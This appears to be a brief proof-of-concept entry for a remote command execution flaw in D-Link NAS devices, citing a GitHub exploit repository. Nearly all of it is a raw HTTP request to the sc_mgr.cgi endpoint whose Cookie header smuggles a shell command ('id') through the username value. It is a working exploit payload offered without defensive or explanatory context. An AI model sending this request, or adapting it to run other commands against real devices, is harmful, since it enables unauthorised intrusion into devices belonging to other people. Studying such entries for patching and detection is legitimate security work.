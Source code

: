 # dlink_sc_mgr_rce

product:  D-Link-NAS
from: https://github.com/wy876/POC/blob/main/D-Link/D-Link-NAS%E6%8E%A5%E5%8F%A3sc_mgr.cgi%E5%AD%98%E5%9C%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
```
GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: username=mopfdfsewo'& id & echo 'mopfdfsewo;
```
